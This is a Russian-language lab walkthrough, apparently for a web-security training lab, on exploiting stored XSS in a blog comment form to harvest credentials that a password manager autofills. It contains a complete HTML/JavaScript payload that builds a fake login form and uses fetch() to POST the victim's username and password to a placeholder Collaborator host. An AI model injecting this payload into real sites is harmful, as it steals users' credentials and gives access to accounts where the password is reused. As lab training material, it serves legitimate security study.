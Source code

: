 В наши дни у многих пользователей есть менеджеры паролей, которые автоматически заполняют их пароли. Вы можете воспользоваться этим, создав поле ввода пароля, считав автоматически заполненный пароль и отправив его на свой домен. Этот метод позволяет избежать большинства проблем, связанных с кражей файлов cookie, и даже может получить доступ к любой другой учетной записи, где жертва повторно использовала тот же пароль.

Основным недостатком этого метода является то, что он работает только для пользователей, у которых есть менеджер паролей, выполняющий автоматическое заполнение паролей. (Конечно, если у пользователя не сохранен пароль, вы все равно можете попытаться получить его пароль с помощью фишинговой атаки на сайте, но это не совсем то же самое.)

Эта лаборатория содержит сохраненную уязвимость XSS в функции комментариев блога. Имитированный пользователь-жертва просматривает все комментарии после их публикации. Чтобы решить эту лабораторную работу, воспользуйтесь уязвимостью, чтобы выкрасть имя пользователя и пароль жертвы, а затем используйте эти учетные данные для входа в учетную запись жертвы.

1. Переходим на любой пост и спускаемся вниз к форме комментария:

![image](https://github.com/user-attachments/assets/3071b40a-9a9b-43c0-b3b4-017ccb49e5c2)

2. Отправьте следующую полезную нагрузку в комментарии к блогу, вставив свой поддомен Burp Collaborator в указанное место:

<form>
  <input type="text" name="username" id="username" autocomplete="username">
  <input type="password" name="password" autocomplete="current-password"
  onchange="if(this.value.length) {
    fetch('https://YOUR-COLLABORATOR-URL', {
      method: 'POST',
      mode: 'no-cors',
      body: 'username=' + encodeURIComponent(document.getElementById('username').value) +
            '&password=' + encodeURIComponent(this.value)
    });
  }">
</form>

3. В коллабораторе в HTTP запросе будут учетные данные пользователя administrator:

![image](https://github.com/user-attachments/assets/c239c04f-d60b-49ff-9700-ff5f4130ec6b)

